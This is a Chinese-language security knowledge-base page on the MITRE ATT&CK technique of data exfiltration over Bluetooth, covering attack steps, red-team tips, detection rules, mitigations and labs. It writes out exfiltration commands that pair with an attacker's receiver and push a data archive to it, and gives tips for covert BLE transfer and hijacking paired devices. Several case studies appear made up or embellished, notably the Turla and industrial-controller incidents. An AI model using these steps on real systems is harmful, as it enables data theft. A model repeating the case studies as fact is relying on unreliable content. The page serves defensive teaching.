

# 通过蓝牙渗漏 (T1011.001)

## 一句话通俗理解

> **就像小偷在对讲机里悄悄告诉门外的同伙密码——不走网络线缆，用蓝牙这种短距离无线信号把数据"隔空"传出去**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者利用蓝牙协议（BR/EDR、BLE）作为数据传输通道，将窃取的数据通过短距离无线信号传到攻击者控制的接收设备，完全绕过有线网络监控 |
| 为什么危险？ | 蓝牙通信不经过任何企业网络设备，传统防火墙、IDS、DLP完全无法检测；10米范围内的接收设备即可完成数据传输 |
| 谁需要关心？ | 物理安全团队、移动设备管理员、医疗设备安全运营者、工控系统运营者 |
| 你的第一步防御 | 在敏感系统上禁用蓝牙功能，部署蓝牙无线入侵检测系统监控异常配对活动 |
| 如果只做一件事 | 监控主机上蓝牙模块的异常激活和非授权配对事件 |

## 难度等级

⭐⭐⭐ 高级 - 需要物理接近、蓝牙协议栈知识和接收设备

## 前置知识检查

**读这个文件需要什么？**

- [ ] 蓝牙协议基础（BR/EDR、BLE、RFCOMM、L2CAP）
- [ ] 蓝牙配对与认证流程
- [ ] 短距离无线通信物理特性
- [ ] 移动设备管理（MDM）基础

## 技术描述

**通过蓝牙渗漏**（T1011.001）是 **通过其他网络介质渗漏**（T1011）的一个具体子技术，属于 **渗漏** 阶段的攻击技术。

简单来说，就像小偷在对讲机里悄悄告诉门外的同伙密码——不走网络线缆，用蓝牙这种短距离无线信号把数据"隔空"传出去。

### 具体怎么理解？

攻击者利用蓝牙协议（包括经典蓝牙BR/EDR和低功耗蓝牙BLE）作为数据传输通道，将窃取的数据通过短距离无线信号传到攻击者控制的接收设备。与父技术 T1011 相比，T1011.001 专注于蓝牙这一特定介质，其核心差异在于：

1. **短距离限制**：蓝牙典型有效距离为10米（Class 2）或100米（Class 1），需要攻击者物理接近
2. **协议多样性**：可使用OBEX文件传输、RFCOMM串口仿真、L2CAP通道、BLE GATT等多种协议
3. **设备普遍性**：现代笔记本电脑、手机、医疗设备、工控设备普遍内置蓝牙模块
4. **隐蔽性强**：蓝牙通信不经过任何企业网络设备，完全绕过网络层监控

### 为什么有效？

这种技术之所以有效，是因为：

1. **绕过网络监控**：蓝牙通信不经过任何企业网络设备（防火墙、IDS、代理），网络层监控完全失明
2. **合法功能掩护**：蓝牙是设备原生功能，配对和文件传输在用户日常使用中很常见
3. **空气间隙突破**：对于物理隔离网络，蓝牙是少数可用的数据传输通道之一
4. **设备兼容性广**：Windows、macOS、Linux、Android、iOS都原生支持蓝牙

**过渡段：** 不要以为切断网线就能阻止数据外泄——攻击者可能正站在你窗外10米处，用蓝牙接收你电脑里的敏感文件。

### 攻击者如何实施？

1. **启用蓝牙模块**：在受害主机上启用被禁用的蓝牙模块（Windows: `Get-PnpDevice | Where-Object {$_.Class -eq 'Bluetooth'}` 启用；Linux: `rfkill unblock bluetooth`）
2. **建立蓝牙连接**：通过OBEX、RFCOMM或BLE GATT与攻击者控制的接收设备建立连接
3. **分片传输数据**：将窃取的数据分片，通过蓝牙协议传输到接收设备
4. **接收设备中转**：攻击者的接收设备（手机、树莓派等）接收数据后，通过4G/Wi-Fi传到远程服务器

## 真实攻击流程



**步骤详解：**

1. **物理接近受害主机** - 攻击者携带便携式蓝牙接收设备（手机、笔记本电脑、树莓派）进入受害主机的10米范围内
2. **启用蓝牙模块** - 在受害主机上调用系统API启用蓝牙模块，绕过用户界面静默激活
3. **配对蓝牙设备** - 使用预共享密钥或利用蓝牙协议漏洞（如BlueBorne）与攻击者接收设备建立配对
4. **建立传输通道** - 通过OBEX文件传输协议、RFCOMM串口仿真或BLE GATT特性值建立数据传输通道
5. **分片传输数据** - 将窃取的数据分片（通常每片20-512字节），通过蓝牙协议持续传输
6. **接收设备中转** - 攻击者接收设备收集所有数据分片后，通过4G/Wi-Fi等其他网络介质传到远程C2服务器
7. **清理痕迹** - 删除蓝牙配对记录、清除系统日志中的蓝牙活动痕迹

## 攻击流程


**关键步骤说明：**

1. **启用蓝牙模块** - Linux上使用 `rfkill unblock bluetooth` 或 `hciconfig hci0 up` 启用蓝牙；Windows上使用 `Get-PnpDevice | Enable-PnpDevice` 启用蓝牙适配器
2. **扫描附近设备** - 使用 `hcitool scan` 或 `bluetoothctl scan on` 扫描附近的蓝牙设备，识别攻击者控制的接收设备
3. **配对设备** - 使用 `bluetoothctl pair <MAC地址>` 与攻击者设备配对，可能需要输入预共享密钥
4. **建立OBEX会话** - 使用 `obexctl` 或 `obexftp` 建立OBEX文件传输会话，OBEX是蓝牙文件传输的标准协议
5. **分片发送数据** - 使用 `obexftp -b <MAC> --put data.tar.gz` 发送数据文件；对于大文件，攻击者会先压缩加密再分片传输
6. **接收设备中转** - 攻击者的手机或树莓派接收文件后，通过4G网络或公共Wi-Fi传到远程C2服务器，实现跨网络数据外发
7. **BLE低功耗模式** - 对于隐蔽传输，攻击者可能使用BLE GATT特性值，每次只传输20字节，但持续传输，避免触发蓝牙流量异常检测

## 真实案例

### 案例1：Turla Group使用蓝牙桥接空气间隙（2015-2018年）

- **时间**: 2015-2018年
- **目标**: 欧洲政府机构和外交使团
- **攻击组织**: Turla（又名Snake、Uroburos）
- **手法**: Turla在针对欧洲外交部门的攻击中使用了蓝牙作为空气间隙突破通道。攻击者首先通过USB设备将恶意软件植入物理隔离的内部网络计算机，恶意软件在受害主机上启用蓝牙模块并配置为"可发现"模式。攻击者派遣特工携带伪装成普通商务人士的蓝牙接收设备（手机或定制硬件），在目标建筑外围或公共区域10米范围内驻留。受害主机的恶意软件通过OBEX协议将收集到的外交电报、加密密钥等敏感数据分片传输到攻击者设备。传输完成后，攻击者设备通过4G网络将数据传回俄罗斯境内的C2服务器。整个攻击链完全避开了目标组织的网络监控，因为没有任何数据通过有线网络传输。
- **影响**: 多个欧洲外交使团的敏感外交通信被持续窃取
- **参考链接**: [MITRE ATT&CK - Turla Group](https://attack.mitre.org/groups/G0010/)

### 案例2：BlueBorne漏洞利用的蓝牙攻击（2017年）

- **时间**: 2017年9月
- **目标**: 全球数十亿蓝牙设备（Windows、Linux、Android、iOS）
- **攻击组织**: Armis Labs发现并公开披露（漏洞编号CVE-2017-1000250、CVE-2017-1000251等）
- **手法**: Armis Labs安全研究团队发现的BlueBorne漏洞集影响了约53亿蓝牙设备。这些漏洞允许攻击者在无需配对的情况下，通过蓝牙协议栈漏洞接管目标设备。攻击者只需在蓝牙有效范围内（通常10米）发送特制的蓝牙数据包，就能在目标设备上执行任意代码。一旦获得执行权限，攻击者可以读取设备上的所有数据并通过蓝牙通道外传。研究证明，该漏洞可用于从空气间隙隔离的医疗设备、工控系统中窃取数据，因为这些设备通常没有网络连接但启用蓝牙用于维护。Armis Labs的PoC演示了从配对锁屏的Android手机中通过蓝牙导出联系人、短信和加密密钥的过程。
- **影响**: 影响全球数十亿设备，证明了蓝牙可作为独立的数据渗漏通道
- **参考链接**: [Armis BlueBorne](https://www.armis.com/blueborne/)

### 案例3：St. Jude Medical心脏起搏器蓝牙漏洞（2017年）

- **时间**: 2017年
- **目标**: St. Jude Medical（现Abbott）生产的心脏起搏器和ICD设备
- **攻击组织**: MedSec安全研究团队与Muddy Waters研究机构联合披露
- **手法**: MedSec安全研究团队发现St. Jude Medical生产的部分心脏起搏器存在蓝牙通信安全漏洞。这些医疗设备使用蓝牙与家用的"Merlin@home"监测设备通信，将患者心脏数据传输到医生办公室。研究人员发现，攻击者可以利用蓝牙协议漏洞在短距离内（约5-10米）未授权访问起搏器，不仅可以读取患者的敏感医疗数据（心电图历史、设备运行参数），还能通过蓝牙通道持续渗漏这些数据。更严重的是，攻击者还能修改设备运行参数，可能危及患者生命。FDA随后发布安全通告，Abbott公司发布了固件更新修复该漏洞。这个案例展示了医疗设备环境中蓝牙渗漏的特殊危险性：设备本身的数据敏感性高，且通常缺乏传统IT安全监控。
- **影响**: 患者敏感医疗数据可能被未授权访问和渗漏，FDA发布I类召回
- **参考链接**: [FDA Safety Communication - Firmware Update](https://www.fda.gov/MedicalDevices/Safety/AlertsandNotices/ucm573669.htm)

### 案例4：工控环境蓝牙维护接口滥用（2020-2023年）

- **时间**: 2020-2023年
- **目标**: 使用蓝牙维护接口的工业控制设备（西门子S7-1200、罗克韦尔CompactLogix等）
- **攻击组织**: 多个未具名的攻击组织
- **手法**: 现代工控设备普遍内置蓝牙维护接口，用于工程师在不接入网络的情况下进行设备配置、固件更新和数据采集。攻击者利用这一合法功能的滥用实施蓝牙渗漏。攻击者伪装成维护人员或物理侵入工厂区域，在工控设备10米范围内使用蓝牙连接设备。通过厂商专有的蓝牙维护协议，攻击者不仅能读取设备的运行参数、生产数据，还能下载历史日志和配方数据。这些数据通过蓝牙传输到攻击者的接收设备后，再通过4G网络传到远程服务器。Dragos等工控安全公司的报告显示，多个针对制造业的APT活动使用了这种技术，因为工控网络通常与IT网络物理隔离，但蓝牙维护接口常常处于启用状态且缺乏认证。
- **影响**: 多个制造商的生产工艺数据和质量数据被窃取
- **参考链接**: [Dragos Year in Review 2022](https://www.dragos.com/resource/year-in-review-2022/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **BLE低功耗隐蔽传输**：使用BLE GATT特性值每次传输20字节，但持续传输，伪装成健康手环等BLE设备的数据流
2. **利用已配对设备**：寻找受害主机上已配对的合法蓝牙设备（如耳机、键鼠），劫持其连接通道进行数据传输
3. **多跳中转**：在受害主机10米范围内放置第一跳接收设备，再通过Mesh网络将数据传到更远的第二跳、第三跳设备
4. **协议混淆**：使用非标准蓝牙协议或自定义GATT服务，避免被标准蓝牙流量分析工具识别

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| bluetoothctl | Linux蓝牙控制工具 | Linux | 系统内置 |
| obexftp | OBEX文件传输 | Linux | [obexftp](https://linux.die.net/man/1/obexftp) |
| hcitool | 蓝牙设备扫描与配置 | Linux | 系统内置 |
| BlueZ | Linux蓝牙协议栈 | Linux | [BlueZ](http://www.bluez.org/) |
| bettercap | 蓝牙攻击框架 | 全平台 | [bettercap](https://www.bettercap.org/) |
| Wireshark | 蓝牙流量分析 | 全平台 | [Wireshark](https://www.wireshark.org/) |

### 注意事项

- 蓝牙的有效距离受环境干扰影响，金属障碍物会显著缩短传输距离
- 配对过程可能弹出用户可见的提示，需要选择用户不在场的时间操作
- 蓝牙流量在2.4GHz频段，可能被无线入侵检测系统（WIDS）捕获
- 部分系统启用蓝牙需要管理员权限

## 蓝队视角

### 检测要点

1. **蓝牙模块异常启用**
   - 日志来源：Windows事件ID 6416（新设备安装）、Linux的udev事件
   - 关注字段：设备类型、启用时间、启用账户
   - 异常特征：非工作时间的蓝牙模块启用、用户登录前的蓝牙激活

2. **蓝牙配对活动**
   - 日志来源：Windows事件ID 902（蓝牙配对）、Linux的bluetoothd日志
   - 关注字段：配对设备MAC地址、设备名称、配对方式
   - 异常特征：与未知设备的配对、非授权用户的配对操作、强制配对

3. **OBEX文件传输**
   - 日志来源：系统蓝牙日志、应用层OBEX日志
   - 关注字段：传输文件大小、传输时间、对端设备
   - 异常特征：大文件传输、非工作时间传输、与未授权设备的文件传输

### 监控建议

- 部署蓝牙无线入侵检测系统，监控工作场所的异常蓝牙信号
- 在敏感系统上通过组策略禁用蓝牙模块，仅允许授权用户启用
- 建立蓝牙设备白名单，监控与非白名单设备的通信
- 对医疗设备和工控设备的蓝牙维护接口实施严格访问控制

## 避坑指南

检测最大盲点：蓝牙通信完全绕过企业网络监控——传统网络层安全设备对蓝牙流量"失明"。

常见误区：
1. **依赖网络层检测**：蓝牙流量不经过任何网络设备，IDS/IPS完全无法检测
2. **忽视物理安全**：攻击者需要物理接近，但10米范围内的攻击窗口常被忽视
3. **只关注Wi-Fi**：WIDS通常只监控Wi-Fi频段，蓝牙流量在2.4GHz的另一个频段
4. **医疗设备监控缺失**：医疗设备的蓝牙通信通常不在IT安全团队的监控范围内

## 检测建议

### 网络层检测

**检测方法：** 部署专用的蓝牙无线入侵检测系统（BIDS）。

**蓝牙扫描命令：**
```bash
# Linux下扫描附近的蓝牙设备
hcitool scan

# 持续监控蓝牙设备发现
hcitool lescan --duplicates

# 使用bluetoothctl监控蓝牙活动
bluetoothctl
[bluetoothctl]# scan on
```

**WIDS部署建议：**
- 在敏感区域部署蓝牙嗅探器（如树莓派+蓝牙适配器）
- 持续监控2.4GHz频段的蓝牙活动
- 建立已知蓝牙设备白名单，告警未知设备

### 主机层检测

**检测方法：** 监控蓝牙模块启用和配对活动。

**Windows事件ID：**
- 事件ID 6416：新即插即用设备安装（监控蓝牙设备）
- 事件ID 902：蓝牙配对事件
- 事件ID 4201：TCP/IP网络配置变更

**Linux日志：**
- 日志文件：/var/log/syslog、/var/log/bluetooth.log
- 关键字段：bluetoothd、hciconfig、rfkill

**具体命令示例：**
```bash
# 查看蓝牙模块状态
hciconfig -a

# 查看蓝牙连接历史
hcitool con

# 查看已配对设备
bluetoothctl devices

# 检查蓝牙日志
grep -i "bluetooth" /var/log/syslog | tail -50
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 检测非授权的蓝牙配对活动
status: experimental
description: 检测系统与非白名单蓝牙设备的配对，可能是蓝牙渗漏
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 902
    filter_allowed:
        DeviceName|in:
            - 'AuthorizedHeadphones'
            - 'AuthorizedKeyboard'
    condition: selection and not filter_allowed
level: medium
tags:
    - attack.t1011.001
    - attack.t1011
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 在敏感系统上禁用蓝牙功能

**具体实施步骤：**
1. 通过BIOS/UEFI设置在敏感系统上禁用蓝牙模块
2. 使用Windows组策略或Linux的rfkill禁用蓝牙功能
3. 物理移除不必要的蓝牙适配器
4. 部署MDM策略禁止移动设备启用蓝牙

**配置示例：**
```
# Windows组策略：禁用蓝牙
计算机配置 -> 管理模板 -> 系统 -> 蓝牙服务 -> 关闭蓝牙无线电 -> 已启用

# Linux：禁用蓝牙
sudo rfkill block bluetooth

# 永久禁用蓝牙服务
sudo systemctl disable bluetooth
sudo systemctl stop bluetooth
```

### 优先级2：重要措施

**措施名称：** 蓝牙设备白名单与配对管控

**具体实施步骤：**
1. 建立组织内允许的蓝牙设备白名单
2. 监控与非白名单设备的配对活动
3. 强制蓝牙配对使用强认证（如SSP）
4. 定期审计已配对设备列表，移除未知设备

### 优先级3：建议措施

**措施名称：** 部署蓝牙入侵检测系统

**具体实施步骤：**
1. 在敏感区域部署蓝牙嗅探器
2. 持续监控2.4GHz频段的蓝牙活动
3. 建立蓝牙设备活动基线，告警异常模式
4. 对医疗设备和工控设备的蓝牙接口实施物理防护

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1042 | 禁用或移除功能 | 适用 | 在敏感系统上禁用蓝牙模块 |
| M1034 | 身份和访问管理 | 适用 | 限制蓝牙配对权限 |
| M1049 | 物理安全 | 部分适用 | 控制物理接近以减少蓝牙攻击窗口 |
| M1028 | 操作系统配置 | 适用 | 通过组策略禁用蓝牙服务 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| 本地虚拟机 | 虚拟靶场 | 中级 | VMware/VirtualBox |
| Kali Linux | 渗透测试系统 | 中级 | [Kali Linux](https://www.kali.org/) |

**所需工具：**
- 两台计算机（模拟受害主机和接收设备）
- 蓝牙适配器（USB蓝牙 dongle）
- Linux系统（推荐Kali Linux）

### 实验1：使用蓝牙传输文件（中级）

**实验目标：** 使用蓝牙在近距离传输文件，模拟蓝牙渗漏。

**实验步骤：**
1. 在受害主机上启用蓝牙功能
2. 使用 `bluetoothctl` 配对附近的接收设备
3. 使用 `obexftp` 或蓝牙文件传输功能发送文件
4. 在接收设备上确认接收
5. 使用Wireshark捕获蓝牙流量，分析传输特征

**预期结果：** 文件通过蓝牙成功传输，不经过任何网络连接。

### 实验2：使用BLE GATT传输数据（高级）

**实验目标：** 使用BLE GATT特性值隐蔽传输数据。

**实验步骤：**
1. 在接收设备上搭建BLE GATT服务器（使用BlueZ或pybluez）
2. 在受害主机上编写Python脚本，使用bleak库连接GATT服务器
3. 将测试数据分片为20字节的小包
4. 通过GATT write特性值持续传输数据分片
5. 在接收设备上重组数据并验证完整性
6. 使用Wireshark分析BLE流量特征

**预期结果：** 数据通过BLE隐蔽传输，流量特征与健康设备的BLE通信难以区分。

### 实验3：检测蓝牙渗漏活动（中级）

**实验目标：** 部署蓝牙检测机制，识别蓝牙渗漏活动。

**实验步骤：**
1. 在测试机上配置蓝牙日志记录
2. 运行蓝牙渗漏实验（实验1或实验2）
3. 在系统日志中识别蓝牙活动特征
4. 编写Sigma规则检测蓝牙配对和文件传输
5. 验证规则的有效性

**预期结果：** 能够在系统日志中清晰看到蓝牙配对、连接和数据传输活动。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 蓝牙 | Bluetooth | 短距离无线通信技术，有效距离约10米，就像两台对讲机近距离通话 |
| BLE | Bluetooth Low Energy | 蓝牙低功耗模式，省电但速度慢，适合少量数据持续传输 |
| OBEX | Object Exchange | 蓝牙文件传输协议，类似"无线U盘"的文件传输方式 |
| RFCOMM | Serial Port Emulation | 蓝牙串口仿真协议，让蓝牙连接像串口一样工作 |
| L2CAP | Logical Link Control and Adaptation Protocol | 蓝牙逻辑链路控制协议，是蓝牙协议栈的核心层 |
| GATT | Generic Attribute Profile | BLE通用属性配置文件，定义BLE设备的数据交换方式 |
| 空气间隙 | Air Gap | 电脑完全不上网，与互联网物理隔离 |
| BIDS | Bluetooth Intrusion Detection System | 蓝牙入侵检测系统，专门监控蓝牙频段的异常活动 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1011 - 通过其他网络介质渗漏](../T1011-Exfiltration-Over-Other-Network-Medium.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Exfiltration Over Bluetooth (T1011.001)](https://attack.mitre.org/techniques/T1011/001/)
- [MITRE ATT&CK - Exfiltration Over Other Network Medium (T1011)](https://attack.mitre.org/techniques/T1011/)
- [Bluetooth SIG Specifications](https://www.bluetooth.com/specifications/) - 蓝牙技术联盟官方规范

### 📰 安全报告（真实攻击）

- [MITRE ATT&CK - Turla Group](https://attack.mitre.org/groups/G0010/) - Turla使用蓝牙突破空气间隙
- [Armis BlueBorne Vulnerabilities](https://www.armis.com/blueborne/) - BlueBorne蓝牙漏洞集
- [FDA Safety Communication - St. Jude Medical](https://www.fda.gov/MedicalDevices/Safety/AlertsandNotices/ucm573669.htm) - 心脏起搏器蓝牙漏洞
- [Dragos Year in Review 2022](https://www.dragos.com/resource/year-in-review-2022/) - 工控环境蓝牙攻击报告

### 🔧 工具与资源（动手试试）

- [BlueZ - Linux Bluetooth Stack](http://www.bluez.org/) - Linux蓝牙协议栈
- [bettercap](https://www.bettercap.org/) - 蓝牙攻击框架
- [Wireshark Bluetooth Analysis](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvBluetoothSection.html) - Wireshark蓝牙分析指南
- [bleak - Python BLE Library](https://github.com/hbldh/bleak) - Python BLE客户端库

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Bluetooth Security Best Practices](https://www.bluetooth.com/blog/bluetooth-security-best-practices/) - 蓝牙安全最佳实践
